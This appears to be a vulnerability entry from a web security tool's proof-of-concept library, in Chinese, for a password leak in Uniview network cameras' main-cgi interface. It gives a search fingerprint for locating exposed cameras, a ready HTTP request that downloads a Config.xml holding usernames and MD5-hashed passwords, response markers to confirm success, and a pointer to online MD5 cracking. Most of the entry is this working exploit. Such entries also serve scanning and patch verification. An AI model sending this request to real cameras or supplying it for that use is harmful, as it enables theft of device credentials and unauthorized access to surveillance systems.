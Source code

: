 ﻿# 宇视科技视频监控main-cgi密码泄露漏洞

> 更新时间：2023-12-18

> 漏洞编号：

> 漏洞说明：宇视(Uniview)高清网络摄像机是一种高性能的网络摄像机，它可以通过网络进行视频传输和监控。该摄像机采用先进的视频技术，具有高清晰度、低照度、宽动态等特点，能够提供高质量的视频图像。该系统main-cgi接口处存在信息泄露漏洞，可以获取账号密码。使用浏览器访问会下载一个Config.xml文件,其中UserName是用户名，UserPass是密码。使用MD5在线解密工具

> 漏洞特征：app="uniview-视频监控"

> 验证脚本：HTTP

```
GET /cgi-bin/main-cgi?json={"cmd":255,"szUserName":"","u32UserLoginHandle":-1} HTTP/1.1
Connection: close
Accept-Encoding: gzip
```

> 响应代码特征：200

> 响应内容特征：UserName

> 上传文件定位：


> 验证文件来源：Dude Suite Web Security Tools - https://www.dudesuite.cn - 转载请注明出处
